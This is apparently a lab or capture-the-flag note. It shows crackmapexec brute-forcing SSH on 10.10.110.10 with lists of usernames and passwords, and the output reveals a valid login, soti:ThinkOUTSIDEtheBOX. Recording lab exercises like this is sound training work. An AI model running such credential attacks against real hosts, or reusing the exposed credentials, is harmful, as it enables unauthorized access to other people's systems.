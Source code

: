 
```bash
crackmapexec ssh 10.10.110.10 -u usernames_ -p passwordlist_
```
usernames_
```bash
mrb3n
egre55
MinatoTW
soti
g0blin
Mr_R3b00t
```
passwordlist_
```bash
offshorerox!
HADES_FTW123
Breakpoint_P41N
ThinkOUTSIDEtheBOX
Holiday666
BURP_GOES_BRRRR!!
```

```bash
┌──(root💀gobots)-[30May2024 14:07:40]-[/home/kali/SUT]
└─# crackmapexec ssh 10.10.110.10 -u usernames_ -p passwordlist_
SSH         10.10.110.10    22     10.10.110.10     [+] soti:ThinkOUTSIDEtheBOX 
```
![[Pasted image 20240530100947.png]]